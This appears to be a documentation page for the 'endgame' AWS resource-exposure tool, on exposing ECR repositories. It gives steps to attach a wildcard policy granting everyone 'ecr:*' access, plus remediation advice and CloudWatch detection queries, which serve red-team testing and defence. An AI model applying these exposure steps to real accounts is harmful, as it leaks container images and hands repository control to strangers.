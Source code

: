 # Elastic Container Registries (ECR)

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

expose --service ecr --name test-resource-exposure
```

* Alternatively, to expose the resource using the AWS CLI:

Create a file named `ecr-policy.json` with the following contents:

```json
{
    "Version" : "2008-10-17",
    "Statement" : [
        {
            "Sid" : "allow public pull",
            "Effect" : "Allow",
            "Principal" : "*",
            "Action" : [
                "ecr:*"
            ]
        }
    ]
}
```

Then run the following from the victim account:

```bash
aws ecr set-repository-policy --repository-name test-resource-exposure --policy-text file://ecr-policy.json
```

* To view the contents of the exposed resource policy, run the following:

```bash
aws ecr get-repository-policy \
    --repository-name test-resource-exposure
```

* Observe that the contents match the example shown below.


## Example

The policy shown below shows a policy that grants access to Principal `*`. If the output contains `*` in Principal, that means the ECR repository is public. If the Principal contains just an account ID, that means it is shared with another account.

```json
{
    "registryId": "111122223333",
    "repositoryName": "test-resource-exposure",
    "policyText": "{\n  \"Version\" : \"2008-10-17\",\n  \"Statement\" : [ {\n    \"Sid\" : \"allow public pull\",\n    \"Effect\" : \"Allow\",\n    \"Principal\" : \"*\",\n    \"Action\" : \"ecr:*\"\n  } ]\n}"
}
```

## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that ECR Repositories are only shared with trusted accounts, and that the trusted accounts truly need access to the ECR Repository.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your ECR Repositories**: Tightly control access to the following IAM actions:
  - [ecr:SetRepositoryPolicy](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_SetRepositoryPolicy.html): _Grants permission to apply a repository policy on a specified repository to control access permissions_
  - [ecr:DeleteRepositoryPolicy](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_DeleteRepositoryPolicy.html): _Grants permission to delete the repository policy from a specified repository_
  - [ecr:GetRepositoryPolicy](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_GetRepositoryPolicy.html): _Grants permission to retrieve the repository policy for a specified repository_
  - [ecr:DescribeRepositories](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_DescribeRepositories.html): _Grants permission to describe image repositories in a registry_
  - [ecr:PutRegistryPolicy](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_PutRegistryPolicy.html): _Grants permission to update the registry policy_
  - [ecr:DeleteRegistryPolicy](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_DeleteRegistryPolicy.html): _Grants permission to delete the registry policy_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='ecr.amazonaws.com' and (eventName='SetRepositoryPolicy' or eventName='DeleteRepositoryPolicy' 
or eventName='PutRegistryPolicy' or eventName='DeleteRegistryPolicy') 
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='ecr.amazonaws.com' and (eventName='SetRepositoryPolicy' and responseElements.policyText like 'Endgame')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [set-repository-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/set-repository-policy.html)